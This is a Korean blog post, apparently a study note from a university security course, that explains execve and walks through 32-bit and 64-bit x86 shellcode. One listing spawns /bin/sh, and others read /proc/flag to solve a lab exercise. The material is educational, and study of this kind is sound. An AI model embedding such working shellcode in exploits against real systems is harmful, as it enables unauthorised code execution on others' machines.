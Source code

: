 ```yaml
---
layout: post
title:  "Shellcode란?"
date:   2020-12-30 20:19:35 +0900
categories: [ComputerArchitecture]
---
```


# Shellcode란?
## Shellcode 튜토리얼
- 참고링크: [CS6265 튜토리얼](https://tc.gts3.org/cs6265/2020/tut/tut02-warmup2.html#shellcode)  
- 목표: interactive shell 실행
Shellcode란 기본적으로 시스템 해킹, [exploitation(취약점 공격)](https://ko.wikipedia.org/wiki/%EC%B7%A8%EC%95%BD%EC%A0%90_%EA%B3%B5%EA%B2%A9)을 위한 generic [payload](https://ko.wikipedia.org/wiki/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C_(%EC%BB%B4%ED%93%A8%ED%8C%85))이다. 

위 링크의 CS6265 튜토리얼에서는 우선 execve를 사용해서 현재 실행중인 프로세스를 바꿔서 정해진 flag를 출력하도록 합니다.

## execve란

`int execve(const char *filename, char *const argv[], char *const envp[]);`

이 함수는 현재 실행중인 프로세스의 실행코드를 실행가능한 파일인 filename로 바꿉니다. filename 프로그램의 코드를 메모리에 새로 load함으로써, 현재 실행 중인 프로세스의 기능이 filename의 것으로 완전히 바뀝니다. 그래서 기존 프로세스는 그대로 두면서 새로운 프로세스를 만드는 fork()와는 구별됩니다. 

위의 argv는 argument vector, envp는 environment입니다. argument가 배열 형태로 따라오고, 또 환경변수로도 따라옵니다. 

## shellcode에서 execve
### 32비트 코드
우선 32비트 버전입니다. 아래에 코드 1과 코드 2가 있는데, 코드 1을 수정해서 flag를 출력할 수 있도록 (코드 2로) 바꾸어야 합니다. 그 과정을 보면, 우선 `#define STRING`을 통해서 문자열을 하나 만듭니다. 그 문자열은 맨 아래의 `.string STRING`에 있습니다. 이게 특이한 부분인데 보통 실행코드가 위치해야 하는 어셈블리의 부분에 문자열이 있습니다.  
STRING을 코드 2와 같이 고치면 어떻게 될까요? 다른 부분도 고쳐야 하기는 하지만, 결론을 말하면 `/bin/sh`를 실행하던 코드가 `/bin/cat`을 실행하고, 그 `/bin/cat`의 argument로 `/proc/flag`를 넘겨줘서 flag가 출력됩니다. 

- 코드 1의 개요도
    ```
    +-------------+
    v             |
    [/bin/cat][0][ptr ][NULL]
                ^     ^     
                |     +-- envp
                +-- argv

    ```

- 코드 2의 개요도
    ```
    +----------------------------+
    |             +--------------=-----+
    v             v              |     |
    [/bin/cat][0][/proc/flag][0][ptr1][ptr2][NULL]
                                ^           ^
                                |           +-- envp
                                +-- argv

    ```

- 코드 1
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/sh"
    #define STRLEN  7
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+4)

    .intel_syntax noprefix
    .text

    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */

    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

- 코드 2
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/catN/proc/flag"
    #define STRLEN1 8
    #define STRLEN2 19
    #define ARGV    (STRLEN2+1)
    #define ENVP    (ARGV+8)

    .intel_syntax noprefix
    .text
        
    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    edi, esi
    add    edi, STRLEN1+1

    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    mov    [ARGV+4+esi], edi

    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN1 + esi],al      /* null-terminate our string */
    mov    [STRLEN2 + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */
    
    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */
    
    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

### 64비트 코드
64비트 코드도 원리는 같습니다. 다만 레지스터들이 rdi, rsi, rdx, ... 하는 식으로 바뀌고, 주소값이 64비트로 바뀌고, `int 80` 대신 `syscall`을 이용하는 등의 차이가 있습니다. (`int 80`은 먹히기는 하는데 `syscall`이 더 빨라서, 64비트 머신에서는 `syscall`이 권장된다고 합니다.) 아래 코드에 해당하는 문제는 위의 코드와는 살짝 다른데, 이번에는 `/bin/cat`을 통해서 출력하는 게 아니라 `/proc/flag`를 직접 open, read, write 하는 문제입니다. 여기서 buf는 메모리의 어떤 곳으로 해당 flag를 read할 때 필요합니다. $rsp-0x500으로 임의로 정했는데 잘 작동합니다. 

```
#include <sys/syscall.h>

#define STRING  "/proc/flag"

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    r8                    /* r10 points to STRING */

  xor    rax,rax                /* get a 64-bit zero value */
  xor    rdi,rdi                /* get a 64-bit zero value */
  xor    rsi,rsi                /* get a 64-bit zero value */
  xor    rdx,rdx                /* get a 64-bit zero value */

  push   r8

  mov    rax,0x2               /* syscall number of open */
  mov    rsi,0x0                /* arg 2: flag */
  mov    rdi,r8                 /* arg 1: string filename */
  xor    rdx,rdx                /* arg 3: int flags */
  syscall                       /* openat(0, "/proc/flag", 0) */

  mov    rdi,rax                /* arg 1: fd */
  mov    rsi,rsp                /* arg 2: buf */
  sub    rsi, 0x500
  mov    rax,0x0                /* syscall number of read */
  mov    rdx,0x418              /* arg 3: count */
  syscall

  mov    rax,0x1                 /* syscall number of write */
  mov    rdi,0x1                 /* arg 1: stdout */
  mov    rsi,rsi                 /* arg 2: buf */
  mov    rdx,0x418               /* arg 3: length of string to read */
  syscall

  xor    rdi,rdi               /* arg 1: 0 */
  mov    rax,rdi
  mov    rax,0x3c                    /* exit(0) */
  /* mov+inc to avoid null byte */
  syscall                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING

```

## 유용한 명령어들
- `strace`, `ltrace` : system call 내역을 나열합니다. 